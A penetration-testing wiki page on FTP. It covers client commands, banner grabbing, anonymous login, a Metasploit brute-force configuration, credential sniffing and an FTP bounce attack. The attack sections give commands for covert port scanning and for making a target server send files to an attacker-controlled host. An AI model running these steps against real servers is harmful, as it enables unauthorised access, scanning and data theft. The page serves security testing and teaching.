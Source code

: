 # FTP

## Theory

The **File Transfer Protocol \(FTP**\) is a standard network protocol used for the transfer of files between a client and server. It usually runs on ports 21/tcp or 2121/tcp.

## Basic usage

Standard UNIX-like commands, like `cd`, `ls`, `mkdir`, `rm` can be used. Here is a short list of some specific commands.

| Command | Description |
| :--- | :--- |
| `help` | display local help information |
| `get` | download file from remote server |
| `put` | upload file on the remote server |
| `ascii` | set the transfer type to "ASCII" |
| `binary` | set the transfer type to "Binary" |
| `close` | terminate FTP session |
| `bye` | terminate ftp session and exit |

{% hint style="info" %}
When downloading files, users should set the FTP client to "Binary" \(`binary` command\) in order to prevent files from becoming corrupted during transit.

Regular text file can be downloaded in the other mode : "ASCII" \(`ascii` command\)
{% endhint %}

{% hint style="info" %}
Hidden files can be listed with `ls -a`
{% endhint %}

## Enumeration

### Banner grabbing

Useful to get basic information about the FTP server such as its type and version.

```bash
telnet -vn $IP $PORT
```

### Accepted commands

The `HELP` and `FEAT` commands could give information about the FTP server such as the recognized commands and the extended features the server supports.

```text
HELP
214-The following commands are recognized (* =>'s unimplemented):
214-CWD     XCWD    CDUP    XCUP    SMNT*   QUIT    PORT    PASV    
214-EPRT    EPSV    ALLO*   RNFR    RNTO    DELE    MDTM    RMD     
214-XRMD    MKD     XMKD    PWD     XPWD    SIZE    SYST    HELP    
214-NOOP    FEAT    OPTS    AUTH    CCC*    CONF*   ENC*    MIC*    
214-PBSZ    PROT    TYPE    STRU    MODE    RETR    STOR    STOU    
214-APPE    REST    ABOR    USER    PASS    ACCT*   REIN*   LIST    
214-NLST    STAT    SITE    MLSD    MLST    
214 Direct comments to root@drei.work
FEAT
211-Features:
 PROT
 CCC
 PBSZ
 AUTH TLS
 MFF modify;UNIX.group;UNIX.mode;
 REST STREAM
 MLST modify*;perm*;size*;type*;unique*;UNIX.group*;UNIX.mode*;UNIX.owner*;
 UTF8
 EPRT
 EPSV
 LANG en-US
 MDTM
 SSCN
 TVFS
 MFMT
 SIZE
211 End
```

### 🛠️ Files

[https://www.howtoforge.com/using-wget-with-ftp-to-download-move-web-sites-recursively](https://www.howtoforge.com/using-wget-with-ftp-to-download-move-web-sites-recursively)

## Connection

### Anonymous login

Some FTP servers are configured to let users connect anonymously and thus give them access to files on the servers without authentication.

```bash
$ ftp $IP $PORT
Name: anonymous
Password: <nothing>
ftp> ls -a # List all files (even hidden) (yes, they could be hidden)
ftp> ...
```

## Attacks

### Brute force

```bash
msfconsole
use auxiliary/scanner/ftp/ftp_login
set RHOSTS $IP
set RPORT $PORT
set USER_FILE $user.txt
set PASS_FILE $pass.txt
run
```

### FTP sniffing

If the FTP communications are not encrypted and if the attacker is on the same network of the client or the server he can sniff the data packet traveling between the client and the server in order to retrieve credential.

Several tools like `Wireshark` could be used to sniff TCP packets.

### FTP Bounce **attacks**

FTP Bounce attacks let an attacker requests access to ports by using the FTP command `PORT`. It's mostly used to make a port-scan without being detected \(as you are not the one doing it, but the FTP server for you\), for D.o.S. attacks, or to download files from another FTP server.

To check if the FTP server is vulnerable to Bounce attacks it is possible to use the tool `NMAP`.

{% hint style="info" %}
[https://nmap.org/nsedoc/scripts/ftp-bounce.html](https://nmap.org/nsedoc/scripts/ftp-bounce.html)
{% endhint %}

#### Scan the victim's network

If a FTP server is vulnerable to Bounce attacks, an attacker could use it to scan its network without being detected.

```bash
nmap -v -b -P0 'username':'password'@'ftp_server' 'address(es)_to_scan'
```

#### Download file/folder

If an attacker has access to a bounce FTP server, he can make it request files of other FTP server and download that file to his own server.

{% hint style="warning" %}
**Requirements:**

* Valid credentials in the FTP intermediate server
* Valid credentials in target FTP server
* Both servers accept the PORT command
* Write permissions in the intermediate server
* Attacker's FTP server supports passive mode
{% endhint %}

#### Steps

* Connect to your own FTP server and make the connection passive to make it listen in a directory where the victim service will send the file.

```bash
#Start server + connection
service pure-ftpd start
ftp My_IP 21
ftp> USER my_own_username
#Enable passive mode
ftp> pasv
Entering Passive Mode (F,F,F,F,X,X) #Note the output (IP and port)
#Tells server to accept data and to store it into the dump file
ftp> stor dump
```

* Create the file to send to the intermediate server with the commands that the targeted server will have to execute. Let's call this file `instrs`.

```bash
user ftp   # user and pass of the targeted server
pass -anonymous@
cwd /DIRECTORY
type i
port F,F,F,F,X,X  #IP and port of the attacker
retr file.tar.Z
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
...
```

{% hint style="info" %}
The extra nulls at the end of the command file are to fill up the TCP windows and ensure that the command connection stays open long enough for the whole session to be executed.
{% endhint %}

* Upload this file on the intermediate server, then upload it from the intermediate server to the targeted server and \_\_make the targeted machine execute this file. 

```bash
#Run these commands on the intermediate server
put instrs
quote "port C,C,C,C,0,21" #IP of the targeted server
quote "retr instrs"
```

* The attacker should have received on his server the file 'file.tar.Z' renamed as 'dump'. 

## References

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-ftp" caption="" %}

{% embed url="https://shahmeeramir.com/penetration-testing-of-an-ftp-server-19afe538be4b" caption="" %}

{% embed url="https://www.thesecuritybuddy.com/vulnerabilities/what-is-ftp-bounce-attack/" caption="" %}

{% embed url="https://www.serv-u.com/features/file-transfer-protocol-server-linux/commands" caption="" %}


